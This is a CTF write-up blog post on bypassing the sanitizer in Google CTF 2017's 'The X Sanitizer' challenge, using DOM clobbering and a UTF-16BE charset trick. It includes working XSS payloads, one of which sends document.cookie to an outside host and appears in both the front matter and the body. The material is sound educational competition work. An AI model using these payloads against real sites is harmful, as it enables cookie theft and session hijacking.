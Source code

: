 ```yaml
---
title: Google CTF 2017 – The X Sanitizer writeup
author: tyage
type: post
date: 2017-06-25T15:57:35+00:00
url: /archive/p990.html
wp-syntax-cache-content:
  - |
    a:4:{i:1;s:2958:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;">onload <span style="color: #339933;">=</span> _<span style="color: #339933;">=&gt;</span> setTimeout<span style="color: #009900;">&#40;</span>_<span style="color: #339933;">=&gt;</span> parent.<span style="color: #660066;">postMessage</span><span style="color: #009900;">&#40;</span>document.<span style="color: #660066;">body</span>.<span style="color: #660066;">innerHTML</span><span style="color: #339933;">,</span> location.<span style="color: #660066;">origin</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">,</span> <span style="color: #CC0000;">1000</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    remove <span style="color: #339933;">=</span> node <span style="color: #339933;">=&gt;</span> <span style="color: #009900;">&#40;</span>node <span style="color: #339933;">==</span> document<span style="color: #009900;">&#41;</span> <span style="color: #339933;">?</span> document.<span style="color: #660066;">body</span>.<span style="color: #660066;">innerHTML</span> <span style="color: #339933;">=</span> <span style="color: #3366CC;">''</span> <span style="color: #339933;">:</span> node.<span style="color: #660066;">parentNode</span>.<span style="color: #660066;">removeChild</span><span style="color: #009900;">&#40;</span>node<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    document.<span style="color: #660066;">addEventListener</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">&quot;securitypolicyviolation&quot;</span><span style="color: #339933;">,</span> e <span style="color: #339933;">=&gt;</span> remove<span style="color: #009900;">&#40;</span>e.<span style="color: #660066;">target</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    document.<span style="color: #660066;">write</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">'&lt;meta http-equiv=&quot;Content-Security-Policy&quot; content=&quot;default-src <span style="color: #000099; font-weight: bold;">\\</span>'</span>none\\<span style="color: #3366CC;">'; script-src *&quot;&gt;&lt;body&gt;'</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table><p class="theCode" style="display:none;">onload = _=&gt; setTimeout(_=&gt; parent.postMessage(document.body.innerHTML, location.origin), 1000);
    remove = node =&gt; (node == document) ? document.body.innerHTML = '' : node.parentNode.removeChild(node);
    document.addEventListener(&quot;securitypolicyviolation&quot;, e =&gt; remove(e.target));
    document.write('&lt;meta http-equiv=&quot;Content-Security-Policy&quot; content=&quot;default-src \\'none\\'; script-src *&quot;&gt;&lt;body&gt;');</p></div>
    ";i:2;s:1070:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;">with<span style="color: #009900;">&#40;</span>document<span style="color: #009900;">&#41;</span> remove<span style="color: #009900;">&#40;</span>document <span style="color: #339933;">===</span> currentScript.<span style="color: #660066;">ownerDocument</span> <span style="color: #339933;">?</span> currentScript <span style="color: #339933;">:</span> querySelector<span style="color: #009900;">&#40;</span><span style="color: #3366CC;">'link[rel=&quot;import&quot;]'</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    <span style="color: #006600; font-style: italic;">// &lt;script src=x&gt;&lt;/script&gt;</span></pre></td></tr></table><p class="theCode" style="display:none;">with(document) remove(document === currentScript.ownerDocument ? currentScript : querySelector('link[rel=&quot;import&quot;]'));
    // &lt;script src=x&gt;&lt;/script&gt;</p></div>
    ";i:3;s:362:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;form name=remove&gt;&lt;/form&gt;
    &lt;link rel=import href=//tyage.net&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;form name=remove&gt;&lt;/form&gt;
    &lt;link rel=import href=//tyage.net&gt;</p></div>
    ";i:4;s:1204:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;form name=currentScript&gt;&lt;/form&gt;
    &lt;link rel=&quot;import&quot; href=&quot;/sandbox?html=&lt;script src=%22/sandbox%3Fhtml=%2500%3D%25001%2500;%2500l%2500o%2500c%2500a%2500t%2500i%2500o%2500n%2500.%2500h%2500r%2500e%2500f%2500%3D%2500%2522%2500/%2500/%2500t%2500y%2500a%2500g%2500e%2500.%2500n%2500e%2500t%2500/%2500%2522%2500+%2500(%2500d%2500o%2500c%2500u%2500m%2500e%2500n%2500t%2500.%2500c%2500o%2500o%2500k%2500i%2500e%2500)%22 charset=%22%55TF-16BE%22&gt;&lt;/script&gt;&quot;&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;form name=currentScript&gt;&lt;/form&gt;
    &lt;link rel=&quot;import&quot; href=&quot;/sandbox?html=&lt;script src=%22/sandbox%3Fhtml=%2500%3D%25001%2500;%2500l%2500o%2500c%2500a%2500t%2500i%2500o%2500n%2500.%2500h%2500r%2500e%2500f%2500%3D%2500%2522%2500/%2500/%2500t%2500y%2500a%2500g%2500e%2500.%2500n%2500e%2500t%2500/%2500%2522%2500+%2500(%2500d%2500o%2500c%2500u%2500m%2500e%2500n%2500t%2500.%2500c%2500o%2500o%2500k%2500i%2500e%2500)%22 charset=%22%55TF-16BE%22&gt;&lt;/script&gt;&quot;&gt;</p></div>
    ";}
categories:
  - CTF

---
```

<h2>Overview</h2>
<p>Problem page:<br />
<a href="https://sanitizer.web.ctfcompetition.com">https://sanitizer.web.ctfcompetition.com</a></p>
<p>Copy of source code:<br />
<a href="https://gist.github.com/tyage/6eabacf6001bd068287842b1052132e4">https://gist.github.com/tyage/6eabacf6001bd068287842b1052132e4</a></p>
<p>The application sanitize input and render it.</p>
<h2>Sanitizing method</h2>
<p>The method of sanitizing is follow:</p>
<p>1. Remove the words that match with <code><i>/meta|srcdoc|utf-16be/i</i></code> from input.<br />
2. Register a ServiceWorker then, render input in iframe<br />
3. In iframe, it load <code>&lt;script src=sanitize&gt;</code> which executes the following code:</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;">onload <span style="color: #339933;">=</span> _<span style="color: #339933;">=&gt;</span> setTimeout<span style="color: #009900;">&#40;</span>_<span style="color: #339933;">=&gt;</span> parent.<span style="color: #660066;">postMessage</span><span style="color: #009900;">&#40;</span>document.<span style="color: #660066;">body</span>.<span style="color: #660066;">innerHTML</span><span style="color: #339933;">,</span> location.<span style="color: #660066;">origin</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">,</span> <span style="color: #CC0000;">1000</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
remove <span style="color: #339933;">=</span> node <span style="color: #339933;">=&gt;</span> <span style="color: #009900;">&#40;</span>node <span style="color: #339933;">==</span> document<span style="color: #009900;">&#41;</span> <span style="color: #339933;">?</span> document.<span style="color: #660066;">body</span>.<span style="color: #660066;">innerHTML</span> <span style="color: #339933;">=</span> <span style="color: #3366CC;">''</span> <span style="color: #339933;">:</span> node.<span style="color: #660066;">parentNode</span>.<span style="color: #660066;">removeChild</span><span style="color: #009900;">&#40;</span>node<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
document.<span style="color: #660066;">addEventListener</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">&quot;securitypolicyviolation&quot;</span><span style="color: #339933;">,</span> e <span style="color: #339933;">=&gt;</span> remove<span style="color: #009900;">&#40;</span>e.<span style="color: #660066;">target</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
document.<span style="color: #660066;">write</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">'&lt;meta http-equiv=&quot;Content-Security-Policy&quot; content=&quot;default-src <span style="color: #000099; font-weight: bold;">\\</span>'</span>none\\<span style="color: #3366CC;">'; script-src *&quot;&gt;&lt;body&gt;'</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table></div>

<p>4. The code removes the node which violates CSP.<br />
5. To prevent loading the attacker&#8217;s script, ServiceWorker overrides the response of contents as following code:</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;">with<span style="color: #009900;">&#40;</span>document<span style="color: #009900;">&#41;</span> remove<span style="color: #009900;">&#40;</span>document <span style="color: #339933;">===</span> currentScript.<span style="color: #660066;">ownerDocument</span> <span style="color: #339933;">?</span> currentScript <span style="color: #339933;">:</span> querySelector<span style="color: #009900;">&#40;</span><span style="color: #3366CC;">'link[rel=&quot;import&quot;]'</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
<span style="color: #006600; font-style: italic;">// &lt;script src=x&gt;&lt;/script&gt;</span></pre></td></tr></table></div>

<p>6. This code remove currentScript or html import element.<br />
7. Now, <code>doument.body</code> returns an sanitized html!</p>
<h2>Evade from sanitization</h2>
<p>But wait, why google uses <code>with(document)</code> ? (It is deprecated.)<br />
Then, I thought I can disable the execution of <code>document.remove</code> by using the technique of <a href="https://github.com/ctfs/write-ups-2014/tree/master/hack-lu-ctf-2014/hotcows-dating">HotCows Dating</a></p>
<p>OK. Let&#8217;s input the html below and confirm that it is not sanitized.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;form name=remove&gt;&lt;/form&gt;
&lt;link rel=import href=//tyage.net&gt;</pre></td></tr></table></div>

<h2>Execute payload</h2>
<p>But sadly, the content which html import load is overrode by ServiceWorker.</p>
<p>So some techniques are needed to execute attacker&#8217;s script.</p>
<p>Soon, I realized that we can import the url: <code>/sanitize?html=URL_ENCODED_HTML</code>.<br />
And <code>URL_ENCODED_HTML</code> can be a string that is not matched with <code><i>/meta|srcdoc|utf-16be/i</i></code> (e.g. <code><%6deta></code>).</p>
<p>Next, we use <code>utf-16be</code> to execute our payload.</p>
<p>Here is useful link: <a href="http://masatokinugawa.l0.cm/2012/05/utf-16content-security-policy.html">http://masatokinugawa.l0.cm/2012/05/utf-16content-security-policy.html</a></p>
<p><code>/sandbox?html=%00=\x00a\x00l\x00e\x00r\x00t\x00(\x001\x00)</code> returns <code><i>&lt;!doctype HTML&gt;\n&lt;script src=sanitize&gt;\n&lt;/script&gt;\n&lt;body&gt;\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x001\x00)</i></code>.</p>
<p>When charset is <code>utf-16be</code>, it is interpreted as <code><i>㰡摯捴祰攠䡔䵌㸊㱳捲楰琠獲挽獡湩瑩穥㸊㰯獣物灴㸊㱢潤社=alert(1)</i></code></p>
<p>OK, now we can get flag in cookie!</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;form name=currentScript&gt;&lt;/form&gt;
&lt;link rel=&quot;import&quot; href=&quot;/sandbox?html=&lt;script src=%22/sandbox%3Fhtml=%2500%3D%25001%2500;%2500l%2500o%2500c%2500a%2500t%2500i%2500o%2500n%2500.%2500h%2500r%2500e%2500f%2500%3D%2500%2522%2500/%2500/%2500t%2500y%2500a%2500g%2500e%2500.%2500n%2500e%2500t%2500/%2500%2522%2500+%2500(%2500d%2500o%2500c%2500u%2500m%2500e%2500n%2500t%2500.%2500c%2500o%2500o%2500k%2500i%2500e%2500)%22 charset=%22%55TF-16BE%22&gt;&lt;/script&gt;&quot;&gt;</pre></td></tr></table></div>

<p>flag is: <code>CTF{no-problem-this-can-be-fixed-by-adding-a-single-if}</code></p>
